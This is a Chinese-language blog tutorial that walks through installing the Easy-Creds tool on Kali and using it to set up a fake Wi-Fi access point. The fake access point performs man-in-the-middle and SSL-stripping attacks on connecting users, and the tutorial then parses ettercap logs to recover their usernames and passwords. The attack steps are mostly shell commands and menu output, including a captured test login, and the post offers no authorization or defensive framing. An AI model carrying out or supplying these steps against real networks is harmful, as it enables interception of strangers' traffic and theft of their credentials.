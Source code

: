 ```yaml
---
layout: post
category: binghe-code-hack
title: 使用Easy-Creds工具攻击无线网络
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: 使用Easy-Creds工具攻击无线网络
lock: need
---
```


# 使用Easy-Creds工具攻击无线网络

Easy-Creds是一个菜单式的破解工具。该工具允许用户打开一个无线网卡，并能实现一个无线接入点攻击平台。Easy-Creds可以创建一个欺骗访问点，并作为一个中间人攻击类型运行，进而分析用户的数据流和账户信息。它可以从SSL加密数据中恢复账户。本节将介绍使用Easy-Creds工具攻击无线网络。

Easy-Creds是BackTrack5中的一部分。在Kali中，默认没有安装该工具。所以，需要先安装Easy-Creds工具才可使用。

**安装Easy-Creds工具。具体操作步骤如下所示。**

（1）从https://github.com/brav0hax/easy-creds网站下载Easy-Creds软件包，其软件包名为easy-creds-master.zip。

（2）解压下载的软件包。执行命令如下所示：

```
root@localhost:~# unzip easy-creds-master.zip
Archive: easy-creds-master.zip
bf9f00c08b1e26d8ff44ef27c7bcf59d3122ebcc
  creating: easy-creds-master/
 inflating: easy-creds-master/README
 inflating: easy-creds-master/definitions.sslstrip
 inflating: easy-creds-master/easy-creds.sh
 inflating: easy-creds-master/installer.sh
```

从输出的信息中，可以看到Easy-Creds软件包被解压到easy-creds-master文件中。从以上信息中，可以看到在easy-creds-master文件中有一个installer.sh文件，该文件就是用来安装Easy-Creds软件包的。

（3）安装Easy-Creds软件包。在安装Easy-Creds软件包之前，有一些依赖包需要安装。这些依赖包，可以参考easy-creds-master文件中的README文件安装相关的依赖包。然后，安装Easy-Creds包。执行命令如下所示：

```
root@kali:~# cd easy-creds/
root@kali:~/easy-creds# ./installer.sh
____ ____ ____ ____ ____ ____ ____ ____ ____ ____
||e|||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.7 - Garden of Your Mind
        Installer
Please choose your OS to install easy-creds
1\. Debian/Ubuntu and derivatives
2\. Red Hat or Fedora
3\. Microsoft Windows
4\. Exit
Choice:
```

以上信息显示了，安装easy-creds的操作系统菜单。

（4）这里选择安装到Debian/Ubuntu，输入编号1，将显示如下所示的信息：

```
Choice: 1
____ ____ ____ ____ ____ ____ ____ ____ ____ ____
||e |||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.7 - Garden of Your Mind
          Installer
Please provide the path you'd like to place the easy-creds folder. [/opt] :   #选择安装位置，本例中使用默认设置
[*] Installing pre-reqs for Debian/Ubuntu…
[*] Running 'updatedb'
[-] cmake is not installed, will attempt to install…
  [+] cmake was successfully installed from the repository.
[+] I found gcc installed on your system
[+] I found g++ installed on your system
[+] I found subversion installed on your system
[+] I found wget installed on your system
[+] I found libssl-dev installed on your system
[+] I found libpcap0.8 installed on your system
[+] I found libpcap0.8-dev installed on your system
[+] I found libssl-dev installed on your system
[+] I found aircrack-ng installed on your system
[+] I found xterm installed on your system
[+] I found sslstrip installed on your system
[+] I found ettercap installed on your system
[+] I found hamster installed on your system
[-] ferret is not installed, will attempt to install…
[*] Downloading and installing ferret from SVN
……
[*] Installing the patched freeradius server…
……
make[4]: Leaving directory `/tmp/ec-install/freeradius-server-2.1.11/doc/rfc'
make[3]: Leaving directory `/tmp/ec-install/freeradius-server-2.1.11/doc'
make[2]: Leaving directory `/tmp/ec-install/freeradius-server-2.1.11/doc'
make[1]: Leaving directory `/tmp/ec-install/freeradius-server-2.1.11'
[+] The patched freeradius server has been installed
[+] I found asleap installed on your system
[+] I found metasploit installed on your system
[*] Running 'updatedb' again because we installed some new stuff
…happy hunting!
```

以上信息显示了安装Easy-Creds包的详细过程。在该过程中，会检测easy-creds的依赖包是否都已安装。如果没有安装，此过程中会安装。Easy-Creds软件包安装完成后，将显示happy hunting！信息。

**使用Easy-Creds工具破解无线网络。具体操作步骤如下所示。**

（1）启动Easy-Creds工具。执行命令如下所示：

```
root@localhost:~/easy-creds-master#./easy-creds.sh
____ ____ ____ ____ ____ ____ ____ ____ ____ ____
||e |||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.8-dev - Garden of New Jersey
At any time, ctrl+c to cancel and return to the main menu
1\. Prerequisites & Configurations
2\. Poisoning Attacks
3\. FakeAP Attacks
4\. Data Review
5\. Exit
q. Quit current poisoning session
Choice:
```

以上输出的信息显示了Easy-Creds工具的攻击菜单。

（2）这里选择伪AP攻击，输入编号3。将显示如下所示的信息：

```
Choice: 3
____ ____ ____ ____ ____ ____ ____ ____ ____ ____
||e |||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.8-dev - Garden of New Jersey
At any time, ctrl+c to cancel and return to the main menu
1\. FakeAP Attack Static
2\. FakeAP Attack EvilTwin
3\. Karmetasploit Attack
4\. FreeRadius Attack
5\. DoS AP Options
6\. Previous Menu
Choice:
```

以上输出信息显示了伪AP攻击可使用的方法。

（3）这里选择使用静态伪AP攻击，输入编号1。将显示如下所示的信息。

![img](https://img-blog.csdnimg.cn/20181107001209342.jpeg)

设置完以上的信息后，将会自动启动一些程序。几秒后，将会打开几个有效窗口。

![img](https://img-blog.csdnimg.cn/20181107001341328.jpeg)

（4）当有用户连接Wifi接入点时，Easy-Creds将自动给客户端分配一个IP地址，并且能够访问互联网。如果在互联网上访问一个安全网址时，该工具将除去SSL并删除安全连接并在后台运行。所以，能够读取到客户端登录某个网站的用户名和密码。捕获到一个登录http://www.live.com网站的用户名和密码。其用户名为[test@live.com](mailto:test@live.com)，密码为qwert。

（5）此时在Easy-Creds的主菜单中选择数据恢复，输入编号4，如下所示：

```
At any time, ctrl+c to cancel and return to the main menu
1\. Prerequisites & Configurations
2\. Poisoning Attacks
3\. FakeAP Attacks
4\. Data Review
5\. Exit
q. Quit current poisoning session
Choice: 4
```

（6）选择数据恢复后，将显示如下所示的信息：

```
____ ____ ____ ____ ____ ____ ____ ____ ____ ____
||e |||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.8-dev - Garden of New Jersey
At any time, ctrl+c to cancel and return to the main menu
1\. Parse SSLStrip log for credentials
2\. Parse dsniff file for credentials
3\. Parse ettercap eci file for credentials
4\. Parse freeradius attack file for credentials
5\. Previous Menu
Choice: 3
```

以上信息显示了可用证书的方法。

（7）这里选择分析Ettercap eci文件，输入编号3，将显示如下所示的信息：

```
||e |||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.8-dev - Garden of New Jersey
At any time, ctrl+c to cancel and return to the main menu
Ettercap logs in current log folder:
/root/easy-creds-master/easy-creds-2018-11-07-1722/ettercap2018-11-07-1724.eci
Enter the full path to your ettercap.eci log file:
```

从输出信息中，可以看到Ettercap日志文件的保存位置。

（8）此时输入ettercap.eci日志文件的全路径。这里只需要通过复制并粘贴提供的整个Ettercap路径就可以了。如下所示：

```
Enter the full path to your ettercap.eci log file: /root/easy-creds-master/easy-creds-2018-11-07-1722/ettercap2014-07-24-1724.eci
```

输入以下路径后，将显示如图所示的界面

![img](https://img-blog.csdnimg.cn/20181107001728273.jpeg)

（9）从该界面可以清楚的看到，截获的客户端用户信息及登录的网站。



## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
